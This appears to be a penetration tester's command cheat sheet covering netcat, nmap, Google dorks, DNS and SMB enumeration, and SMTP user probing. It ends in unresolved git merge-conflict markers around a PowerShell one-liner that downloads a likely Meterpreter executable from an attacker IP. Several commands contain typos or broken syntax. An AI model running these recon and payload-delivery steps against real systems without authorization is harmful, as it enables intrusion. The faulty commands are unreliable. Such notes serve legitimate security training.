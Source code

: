 #----- Bash -----#

## For loop
for ip in $(cat file.txt); do echo $ip; done

## Create directory structure for each IP in file.txt
for ip in $(cat alive.txt); do mkdir -p "$ip"/{findings,notes,pillage,remote-enum,root-in-10-steps-or-less}; done

## Parse file data
cut -d'.' -f1 filename.txt |sort -u



# Wordlist locations
/usr/share 


#----- Linux Commands -----#
### Process Running
netstat -antp | grep sshd

### Start HTTP Service (/var/www)
service apache2 start

### Service Persistence on reboot 
update-rc.d ssh enable
update-rc.d apache2 enable


#----- NetCat -----#
### Connect using netcat
nc -nv IPaddress port

### Netcat listner
nv -nlvp 4444

## Netcat transfer

### Receiver
nc -nlvp 4444 > incoming.txt

### Sender
nc -nv IPaddress port </path/of/file.txt

### SIMPLE TCP & UDP PORT SCAN
nc -nvv -w 1 -z IPADDRESS START_PORT-END_PORT
nc -unvv -w 1 -z IPADDRESS START_PORT-END_PORT


#----- NCat (Supports encrypted tunnel) -----#
### Listener
ncat -nlvp IPAddress 4444

### Connect
ncat -v IPAddress 4444 --ssl

#----- Google Hacking CMD -----#
### Search specific site
Site:"microsoft.com"

### Exclude results from www.microsoft.com
Site:"microsoft.com" -site:"www.microsoft.com

### Search specific file type
site:"microsoft.com: filetype:ppt

intitle:"VNC viewer for java"

inurl:"/specific/url/"

#----- DNS ENUMBERATION -----#
### name server
host -t ns domain.com

### mail server
host -t mx domain.com

### Forward lookup (domain to IP)
for subdomain in $(list.txt);do nslookup $subdomain.DOMAIN.com|grep "Address: " | cut -d " " -f1,4;done

### Reverse DNS lookup (IP range to doamin)
for ip in (seq 1 255); do host 10.10.10.$ip |grep "DOMAIN" |cut -d" " -f1,5; done

### ZONE TRANSFERS (Get all domains in DNS)
host -l ns DOMAIN.COM

## BUILT TOOLS
DNSRECON, DNSENUM


#----- PORT SCANNING -----#
SYN SCANNING (half scan) 

### NMAP SCRIPTS
/usr/share/nmap/scripts

### PING SWEEP
nmap -sn 192.168.1.1/24

### NMAP GOOD ARGUMENTS
-oG = Grepable output

--reason: Display the reason a port is in a particular state

--top--ports (nmap -sT --top-ports 20 IPAddress -oG filename.txt)

-sV = Banner grabbing

-O = OS fingerprinting

-A: Enable OS detection, version detection, script scanning, and traceroute

--open = only display results of open ports


#----- SMB -----#

### Identify smb or netbios services
nbtscan IPADDRESS/24

PORTS 139,445

### Login to SMB with null session (click enter on password)
rpcclient -U "" IPADDRESS

### commands to run after connecting
srvinfo
enumdomusers
getdompwinfo

## Tools to use 
enum4linux -v IPADDRESS

nmap -p 139,445 --script smb-enum-users.nse IPADDRESS -oG smb-enum.txt
nmap -p 139,445 --script smb-vuln* IPADDRESS -oG smb-enum.txt

#----- SMTP -----#

PORT 25

#Connect via Netcat
nc -nv 10.10.10.51 25
VRFY bob


<<<<<<< HEAD
for user in $(cat users.txt); do nc -nv IPADDRESS 25; VRFY $user; done
=======
#----- Transferring Files from Linux to Windows -----#
### Python Webserver 
python -m SimpleHTTPServer

### Transfer to Windows with no broswer
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\name\Desktop\met8888.exe')"

>>>>>>> 13e2e1d7c5bf48c2cc040d1732e2b8118184a462

